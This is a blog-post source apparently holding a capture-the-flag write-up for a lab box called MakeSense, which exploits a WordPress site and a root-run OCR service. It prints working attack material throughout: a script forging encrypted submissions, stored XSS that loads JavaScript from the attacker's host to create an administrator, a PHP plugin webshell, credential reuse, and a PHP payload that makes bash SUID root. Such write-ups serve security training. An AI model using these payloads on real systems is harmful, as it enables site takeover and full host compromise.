








<%
	meta("../../meta.json")
	meta()
	const path = require('path');
	require(path.resolve(path.dirname(inputPath), "../../_partials/hljs-terminal.js"));
	url = url + "/posts/" + path.basename(path.dirname(outputPath)) + "/";
	const _allPosts = metas("../../posts").filter(p => p.meta.published);
	_allPosts.sort((a, b) => b.meta.date.localeCompare(a.meta.date));
	const _mySlug = path.basename(path.dirname(outputPath));
	const _myIdx = _allPosts.findIndex(p => p.directory === _mySlug);
	const prevPost = _myIdx < _allPosts.length - 1 ? _allPosts[_myIdx + 1] : null;
	const nextPost = _myIdx > 0 ? _allPosts[_myIdx - 1] : null;
%>
<%= render("../../_partials/post-header.html", { title, image, url, description, caption, date, tags, reading_time }) %>

MakeSense is a Linux box built around "AI" features that make sense of audio and images. The website is a WordPress agency site with a voice-message widget that transcribes and summarises calls in the browser, then encrypts the result before sending it. The encryption key ships in the theme's JavaScript, so I can forge my own submissions, and those submissions are rendered unescaped in wp-admin. That stored XSS creates an administrator account, and a malicious plugin gives a shell as www-data. The database password in `wp-config.php` is reused for SSH as walter. For root, there's an OCR app on localhost running as root that saves whatever text it reads from a drawing to a file of my choosing. A picture of a line of PHP, saved as `shell.php`, runs as root.

## Recon

### nmap

`nmap` finds SSH and HTTPS open, with HTTP (80) and 8001 filtered:

```terminal
❯ nmap -p- --min-rate=1000 10.129.63.69
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   filtered http
443/tcp  open     https
8001/tcp filtered vcom-tunnel

❯ nmap -sC -sV -p 22,80,443,8001 10.129.63.69
PORT     STATE    SERVICE   VERSION
22/tcp   open     ssh       OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
443/tcp  open     ssl/http  Apache httpd 2.4.58 ((Ubuntu))
|_http-generator: WordPress 7.0
|_http-title: Agency LLC
| ssl-cert: Subject: commonName=makesense.htb
```

Based on the OpenSSH version, the host is likely Ubuntu 24.04. The TLS certificate gives the hostname `makesense.htb`, which I'll add to `/etc/hosts`. The `vcom-tunnel` label on 8001 is just nmap's guess from the port number, since nothing answered. But filtered rather than closed means a firewall rule is hiding something there, which is worth remembering.

### Website - TCP 443

The site is a template for a web development agency, the one pictured at the top of this post. `wpscan` confirms WordPress 7.0 with a custom theme, `webagency`, and no known-vulnerable plugins. It also enumerates three users: walter, admin and jake.

```terminal
❯ wpscan --url https://makesense.htb --disable-tls-checks -e vp,vt,u
[+] WordPress version 7.0 identified (Insecure, released on 2026-05-20).
[+] WordPress theme in use: webagency
 | Version: 1.0 (80% confidence)
[i] No plugins Found.
[i] User(s) Identified:
[+] walter
[+] admin
[+] jake
```

A custom theme with no public history means the bug is almost certainly in the theme's own code. The most custom thing on the page is a floating call button. It opens a "leave your message after the beep" dialog that records from the microphone:

<figure>

<figcaption>Call WebAgency dialog: Please leave your message after the beep</figcaption>
</figure>

There's also a normal contact form further down the page.

## Shell as www-data

### Client-side crypto

The homepage loads two theme scripts, `main.js` and `whisper/whisper-wrapper.js`:

```terminal
❯ curl -sk https://makesense.htb/ -o homepage.html
❯ grep -oE '[a-zA-Z0-9_./-]+\.js' homepage.html | sort -u | grep webagency
//makesense.htb/wp-content/themes/webagency/assets/js/main.js
//makesense.htb/wp-content/themes/webagency/assets/js/whisper/whisper-wrapper.js
```

`whisper-wrapper.js` runs a Whisper model and a summarisation model in the browser with Transformers.js. Before the result goes to the server, it's encrypted with AES-GCM, using a key defined right at the top of the file:

```javascript
const ENCRYPTION_KEY = 'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI';

async encryptPayload(payload) {
    const data = new TextEncoder().encode(JSON.stringify(payload));
    const keyMaterial = await crypto.subtle.digest('SHA-256',
        new TextEncoder().encode(ENCRYPTION_KEY));
    const key = await crypto.subtle.importKey('raw', keyMaterial,
        { name: 'AES-GCM' }, false, ['encrypt']);
    const iv = crypto.getRandomValues(new Uint8Array(12));
    const encrypted = await crypto.subtle.encrypt({ name: 'AES-GCM', iv }, key, data);
    // ... base64(iv || ciphertext || tag)
}
```

The key is the SHA-256 of that string, the IV is random, and the output is base64 of the IV followed by the ciphertext and tag. The algorithm is fine. The problem is that the only "secret" is served to every visitor, so the server can't tell my ciphertext from the browser's.

### The AJAX flow

`main.js` shows how a message gets saved. Both steps go to `wp-admin/admin-ajax.php` with a nonce that WordPress prints into the public homepage:

1. `submit_contact_form` (or `save_voice_raw` for audio) creates a post and returns its `post_id`.
2. `save_voice_results` takes that `post_id` and an `encrypted_payload` holding `{"transcription": ..., "summary": ...}`.

The nonce is in the page source:

```terminal
❯ grep -o "webagency_ajax[^;]*;" homepage.html
webagency_ajax = {"ajax_url":"https://makesense.htb/wp-admin/admin-ajax.php","nonce":"1f7ac48b33",...};
```

The contact form gives me a `post_id` without needing a microphone:

```terminal
❯ curl -sk https://makesense.htb/wp-admin/admin-ajax.php -d action=submit_contact_form \
    -d nonce=1f7ac48b33 -d name=Test -d email=test@test.com -d phone=123 \
    -d "message=This is a test contact message long enough to trigger summarization."
{"success":true,"data":{"message":"Thank you for contacting us! We will get back to you soon.","post_id":70}}
```

To fill in the transcription myself, I re-implemented `encryptPayload` in Python:

```python
#!/usr/bin/env python3
import base64, hashlib, json, os, sys
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

KEY = hashlib.sha256(b"bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI").digest()

text = sys.argv[1]
iv = os.urandom(12)
plaintext = json.dumps({"transcription": text, "summary": text}).encode()
print(base64.b64encode(iv + AESGCM(KEY).encrypt(iv, plaintext, None)).decode())
```

### Stored XSS

The submissions show up in a "Contact Submissions" screen in wp-admin, so the obvious test is a script tag that loads from my host:

```terminal
❯ python3 forge_payload.py '<script src="http://10.10.14.157:8000/x.js"></script>'
OwwCLUXtuNEmWmzqL9M9djm14pml9SWMgS5HNR3HUcmnfMgJ0ssPemxop0Hqck2vo0aHcAFRuMpx7iS4...

❯ curl -sk https://makesense.htb/wp-admin/admin-ajax.php -d action=save_voice_results \
    -d nonce=1f7ac48b33 -d post_id=70 --data-urlencode "encrypted_payload=OwwCLUXt..."
{"success":true,"data":{"message":"Results saved successfully!","post_id":70}}
```

`--data-urlencode` matters here. Base64 contains `+`, and PHP decodes a raw `+` in a form body as a space, which breaks the ciphertext.

About a minute later, the admin views the submission and the browser requests `x.js` from my Python web server. The script runs as the admin, on the admin's own origin. It can load the Add New User page, read the CSRF nonce out of it, and submit the form:

```javascript
(async () => {
  const html = await (await fetch('/wp-admin/user-new.php')).text();
  const nonce = html.match(/name="_wpnonce_create-user" value="([a-f0-9]+)"/)[1];
  const body = new URLSearchParams({
    action: 'createuser', '_wpnonce_create-user': nonce,
    '_wp_http_referer': '/wp-admin/user-new.php',
    user_login: 'vador', email: 'vador@attacker.htb',
    pass1: 'P@ssw0rd123!', pass2: 'P@ssw0rd123!',
    role: 'administrator', createuser: 'Add New User',
  });
  await fetch('/wp-admin/user-new.php', { method: 'POST', body });
})();
```

Put together, the forged submission turns the admin's own browser into the attacker:

<figure>

<figcaption>Sequence: attacker stores forged payload; admin opens submissions; browser loads x.js from attacker, fetches user-new.php nonce, posts createuser for vador; attacker logs in as vador</figcaption>
</figure>

The next time the admin checks submissions, vador exists, and I can log in as an administrator:

<figure>

<figcaption>WordPress dashboard logged in as the new administrator, with a Contact Submissions menu</figcaption>
</figure>

### Plugin webshell

An administrator can upload plugins, and a plugin is just PHP that WordPress runs. A minimal one with a command parameter:

```php
<?php
/**
 * Plugin Name: Evil Plugin
 * Description: definitely not a webshell
 * Version: 1.0
 */
if (isset($_REQUEST['cmd'])) {
    system($_REQUEST['cmd']);
}
```

I zip it, upload it through Plugins > Add New > Upload Plugin, and activate it:

<figure>

<figcaption>Installed plugins list showing Evil Plugin, definitely not a webshell, active</figcaption>
</figure>

The plugin file is reachable directly, and runs as www-data:

```terminal
❯ curl -sk "https://makesense.htb/wp-content/plugins/evilplugin/evilplugin.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as walter

`wp-config.php` is the first thing to read on any WordPress box. This one actually uses SQLite, but it still defines the old MySQL constants, password included:

```terminal
❯ curl -sk https://makesense.htb/wp-content/plugins/evilplugin/evilplugin.php \
    --data-urlencode "cmd=cat /var/www/html/wp-config.php"
<?php
// SQLite database configuration
define( 'DB_DIR', __DIR__ . '/wp-content/database/' );
define( 'DB_FILE', '.ht.sqlite' );

// Dummy MySQL settings (required but not used with SQLite)
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'walter' );
define( 'DB_PASSWORD', 'JbhHDAEgXvri3!' );
...
```

walter is also a user on the site and the box, and the password works for SSH:

```terminal
❯ ssh walter@10.129.63.69
walter@makesense:~$ id
uid=1000(walter) gid=1000(walter) groups=1000(walter)
```

`user.txt` is in walter's home directory.

## Shell as root

### Enumeration

Port 8001 was filtered from outside. From inside, it's listening on localhost, and the process belongs to root:

```terminal
walter@makesense:~$ ss -tlnp | grep 8001
LISTEN 0      4096       127.0.0.1:8001       0.0.0.0:*
walter@makesense:~$ ps aux | grep php
root   1413  0.0  0.7  228488 30304 ?  S  08:36  0:01 php -S 127.0.0.1:8001 -t /root/ocr4/
```

That's PHP's built-in development server, serving `/root/ocr4/` as root. Every PHP file it serves runs as root. It asks for Basic auth, and walter's password works a third time:

```terminal
walter@makesense:~$ curl -i http://127.0.0.1:8001/
HTTP/1.0 401 Unauthorized
WWW-Authenticate: Basic realm="OCR Protected"

walter@makesense:~$ curl -s -o /dev/null -w "%{http_code}\n" -u walter:'JbhHDAEgXvri3!' http://127.0.0.1:8001/
200
```

I forward the port with `ssh -L 8001:127.0.0.1:8001 walter@10.129.63.69` to use it in a browser.

### MakeSense OCR

The app is a canvas. Draw some text, it runs OCR on the drawing and shows what it read:

<figure>

<figcaption>MakeSense: Draw text. Read it back. A blank canvas for handwriting</figcaption>
</figure>

After recognising text, it offers to save the result to a file, with a filename field that defaults to `result.txt`. If it saves anywhere under the docroot without checking the extension, then text that reads as PHP becomes a PHP file served by root.

Drawing `<?php` by hand with a mouse goes about as well as you'd expect:

<figure>

<figcaption>A shaky mouse-drawn attempt at writing <?php on the canvas</figcaption>
</figure>

<figure>

<figcaption>Recognized: LH, with a Save as result.txt field</figcaption>
</figure>

Drawing isn't required, though. The page just converts the canvas to a PNG data URI and posts it as `canvas_image`:

```javascript
function sendCanvas() {
    document.getElementById('canvas_image').value = canvas.toDataURL('image/png');
    document.getElementById('canvasForm').submit();
}
```

So I can render clean text with ImageMagick and send that instead:

```terminal
❯ convert -size 1600x150 xc:white -font DejaVu-Sans-Mono -pointsize 48 -fill black \
    -gravity Center -annotate +0+0 '<?php system("chmod 4755 /bin/bash"); ?>' payload.png
```

<figure>
 in a monospace font" loading="lazy">
<figcaption>The rendered PNG: <?php system(&quot;chmod 4755 /bin/bash&quot;); ?> in a monospace font</figcaption>
</figure>

The width matters. My first try at 900 pixels clipped both ends of the string, and Tesseract returned `) system("chmod 4755 /bin/bash" }`. At 1600 pixels it reads every character back exactly.

### Saving the file

Recognising and saving are two requests. The first returns the recognised text and a hidden `ocr_id` tied to the PHP session. The second saves that result under a filename. Without the same session cookie on both, the save fails with "Invalid OCR request. Cannot save."

<figure>

<figcaption>Sequence: walter posts PNG of PHP code, Tesseract reads it, app returns text and ocr_id, walter saves it as shell.php with the same cookie, then requests it and PHP runs as root</figcaption>
</figure>

```terminal
walter@makesense:~$ DATAURI="data:image/png;base64,$(base64 -w0 payload.png)"
walter@makesense:~$ curl -s -u walter:'JbhHDAEgXvri3!' http://127.0.0.1:8001/ -c c.txt -b c.txt \
    --data-urlencode "canvas_image=$DATAURI" -o ocr.html
walter@makesense:~$ grep output-text ocr.html
<p class="output-text">&lt;?php system(&quot;chmod 4755 /bin/bash&quot;); ?&gt;</p>
walter@makesense:~$ OCR_ID=$(grep -oP 'name="ocr_id" value="\K[^"]+' ocr.html)
walter@makesense:~$ curl -s -u walter:'JbhHDAEgXvri3!' http://127.0.0.1:8001/ -c c.txt -b c.txt \
    -d "ocr_id=$OCR_ID" -d filename=shell.php -d save_output=Save | grep -o 'Saved as: [^<]*'
Saved as: saved/shell.php
```

There's no extension check. Requesting the file has root's PHP server run it:

```terminal
walter@makesense:~$ curl -s -u walter:'JbhHDAEgXvri3!' http://127.0.0.1:8001/saved/shell.php
walter@makesense:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

`bash` is now SUID root. Running it with `-p` keeps the effective UID instead of dropping it:

```terminal
walter@makesense:~$ bash -p
bash-5.2# id
uid=1000(walter) gid=1000(walter) euid=0(root) groups=1000(walter)
```

`root.txt` is in `/root`.

<%= render("../../_partials/post-footer.html", { url, title, tags, prevPost, nextPost }) %>
